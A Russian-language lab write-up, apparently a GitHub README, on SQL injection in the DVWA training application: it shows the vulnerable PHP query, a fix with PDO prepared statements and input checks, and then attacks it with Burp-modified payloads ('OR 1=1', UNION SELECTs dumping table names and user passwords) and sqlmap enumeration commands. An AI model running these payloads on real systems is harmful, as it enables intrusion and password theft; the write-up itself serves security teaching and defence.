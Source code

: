 # Использование статического анализатора кода для обеспечения безопасности
##  Участок кода, содержащий инъекцию SQL
Вредоносное значение может быть присвоено переменной `$id`. И затем с помощью этой переменной формируется SQL запрос:
```php
$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($GLOBALS["___mysqli_ston"], $getid );
```
![image](https://user-images.githubusercontent.com/53438664/200193216-cf8858cf-97be-4a39-99bf-c77685f1ead9.png)
**Источники:**
- [OWASP Top 10 2021 Category A3](https://owasp.org/Top10/A03_2021-Injection/ "OWASP Top 10 2021 Category A3") - Injection
- [MITRE, CWE-20](https://cwe.mitre.org/data/definitions/20 "MITRE, CWE-20") - Improper Input Validation
- [MITRE, CWE-89](https://cwe.mitre.org/data/definitions/89 "MITRE, CWE-89") - Improper Neutralization of Special Elements used in an SQL Command

## Кодревью
Сервис статического анализа кода указал следующие проблемы в исследуемом коде:
![image](https://user-images.githubusercontent.com/53438664/200193274-b31845db-07d5-4057-9a2d-93889bdcf6ba.png)

### Не следует использовать символы табуляции
Разработчикам не нужно настраивать ширину вкладок своих текстовых редакторов, чтобы иметь возможность читать исходный код.
### Файлы должны содержать пустую новую строку в конце
Некоторые инструменты работают лучше, когда файлы заканчиваются пустой строкой.
### Исходный код должен соответствовать стандартам форматирования
Общие соглашения о кодировании позволяют команде эффективно сотрудничать. Это правило вызывает проблемы из-за несоблюдения стандарта форматирования. Значения параметров по умолчанию соответствуют стандарту PSR2.


## Исправление кода
### Предотвращение SQL инъекции
Применена технология **PDO**.
> **PDO** (PHP Data Objects — расширение для PHP, предоставляющее разработчику универсальный интерфейс для доступа к различным базам данных).

Принцип работы **PDO** заключается в том, что он отдельно отправляет инструкцию и отдельно данные, строго указывая, что данные это только данные. Другими словами, при привязке параметра через **PDO**, вы сообщаете БД, какие значения использовать при выполнении запроса. Затем **PDO** передаст значение уже скомпилированной инструкции.

Разница между параметрами привязки и простой старой строковой инъекцией заключается в том, что в первом случае значение не интерполируется, а скорее присваивается. Во время выполнения СУБД находит заполнитель и запрашивает значение для использования. Таким образом, нет никаких шансов, что кавычки или другие гадости проберутся в фактическое утверждение.
```php
$db = new PDO('mysql:host=localhost;dbname=dvwa', $user, $password);
```

В нашем запросе передаётся переменная `$id`, поэтому этот запрос в обязательном порядке должен выполняться только через подготовленные выражения.
> Подготовленные выражения в PDO - это обычный SQL запрос, в котором вместо переменной ставится специальный маркер - плейсхолдер.

PDO поддерживает именованные плейсхолдеры, для которых порядок не важен.
В данном случае используем именнованный плейсхолдер `:id`:
```php
$data = $db->prepare('SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;');
$data->bindParam(':id', $id, PDO::PARAM_INT);
$data->execute();
```
Добавлена проверка вводимого значения `$id` с помощью функции `is_numeric()`, для установления соответсивия типа числовому значению.
### Стандартизация кода
Убраны "запахи кода" в соответсвии со стандартом PSR2. PSR-2 – Рекомендации по оформлению кода.
> Цель данных рекомендаций – снижение сложности восприятия кода, написанного разными авторами; она достигается путём рассмотрения серии правил и ожиданий относительно форматирования PHP-кода.

### Результаты
![Результаты проверки кода после исправления](https://user-images.githubusercontent.com/53438664/200193379-ddd3e374-3239-47e5-b33f-181d0f8718c7.png "Результаты проверки кода после исправления")

## Burp
Настроив Burp и включив прокси в браузере при помощи предустановленных расширений мы можем начать перехватывать запросы из браузера.
В Burp Suite, можно увидеть перехваченные данные:
![image](https://user-images.githubusercontent.com/53438664/205754746-6ffa6a21-fe36-42ad-9f77-51b04c0fb191.png)

Заменим `id=1` на `id=1 OR 1=1#` (с использованием URL-encode), в ответ получим всех пользователей:

![image](https://user-images.githubusercontent.com/53438664/205754589-c2213481-1d0f-4fd0-b60f-fbb32fe6871c.png)

Произведём следующую инъекцию:
```
id=1 UNION SELECT NULL,TABLE_NAME FROM INFORMATION_SCHEMA.TABLES#
```
В ответ получим названия таблиц:

![image](https://user-images.githubusercontent.com/53438664/205755365-b612727e-18a2-404b-9bdb-3f3997e1a662.png)

Произведём следующую инъекцию:
```
id=1 UNION SELECT USER,PASSWORD FROM users#
```
В ответ получим пароли пользователей:

![image](https://user-images.githubusercontent.com/53438664/205756383-f86ea29b-c263-4c10-8d33-91e69c1a3bc1.png)

## SQLMap
Воспользуемся утилитой для поиска уязвимых параметров запроса.
```sh
sqlmap.py -u "http://dvwa.local/vulnerabilities/sqli_blind/" --data="id=1&Submit=Submit" --cookie="PHPSESSID=99gsrgjfdlsn3qn29s5oc4c76f; security=medium" -p id
```
![image](https://user-images.githubusercontent.com/53438664/205756897-01a9c86b-0c00-46b6-959b-33074863517b.png)

В результате поиска выявлена уязвимость типа _boolean-based blind_ и _time-based blind_ у параметра `id`.
Получим список имеющихся баз данных с помощью команды:
```sh
sqlmap.py -u "http://dvwa.local/vulnerabilities/sqli_blind/" --data="id=1&Submit=Submit" --cookie="PHPSESSID=99gsrgjfdlsn3qn29s5oc4c76f; security=medium" -p id --dbs
```
![image](https://user-images.githubusercontent.com/53438664/205757631-3e26ad8c-e149-4094-a783-f957e27f251d.png)

Получим список имеющихся таблиц базы данных `dvwa` с помощью команды:
```sh
sqlmap.py -u "http://dvwa.local/vulnerabilities/sqli_blind/" --data="id=1&Submit=Submit" --cookie="PHPSESSID=99gsrgjfdlsn3qn29s5oc4c76f; security=medium" -p id -D dvwa --tables
```
![image](https://user-images.githubusercontent.com/53438664/205757911-51b68d62-c36c-40f0-b10d-d2ff7960e129.png)
